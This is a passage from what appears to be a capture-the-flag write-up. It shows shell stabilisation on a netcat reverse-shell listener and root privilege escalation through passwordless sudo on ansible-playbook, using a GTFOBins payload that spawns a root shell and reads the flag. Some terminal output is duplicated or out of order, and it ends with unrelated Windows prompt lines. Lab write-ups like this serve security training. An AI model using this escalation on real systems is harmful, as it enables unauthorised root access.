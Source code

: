 ### Privilege Escalation

First, I will stabilize my shell:

```bash
$ python3 -c "import pty;pty.spawn('/bin/bash')"
john@bautycare:~$
[1]  + 583791 suspended  rlwrap nc -lvnp 443
hcue@pjsk:/tmp » stty raw -echo;fg
[1]  + 583791 continued  rlwrap nc -lvnp 443
john@beautycare:~$
john@beautycare:~$ export TERM=xterm
export TERM=xterm
john@beautycare:~$
```

Then, I’ll check if we have any sudo rights:

```bash
john@beautycare:~$ sudo -l
Matching Defaults entries for john on beautycare:
    env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User john may run the following commands on beautycare:
    (root) NOPASSWD: /usr/bin/ansible-playbook
john@beautycare:~$
```

I just searched this binary in gtfobins and grabbed:

```bash
TF=$(mktemp)
echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
sudo /usr/bin/ansible-playbook $TF
```

> https://gtfobins.github.io/gtfobins/ansible-playbook/

```bash
TF=$(mktemp)
echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
TF=$(mktemp)
john@beautycare:~$ sudo /usr/bin/ansible-playbook $TF
echo '[{hosts: localhost, tasks: [shell: /bin/sh </dev/tty >/dev/tty 2>/dev/tty]}]' >$TF
john@beautycare:~$ sudo /usr/bin/ansible-playbook $TF
[WARNING]: provided hosts list is empty, only localhost is available. Note that
the implicit localhost does not match 'all'
PLAY [localhost] **************************************************************
TASK [Gathering Facts] *********************************************************
ok: [localhost]
TASK [shell] *******************************************************************

# id

id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cat /root/root.txt
STF22{3f62f62107c411482f5bc8caff1843e2}
```


[xc: C:\Windows\system32]: whoami
[xc: C:\Windows\system32]: hostname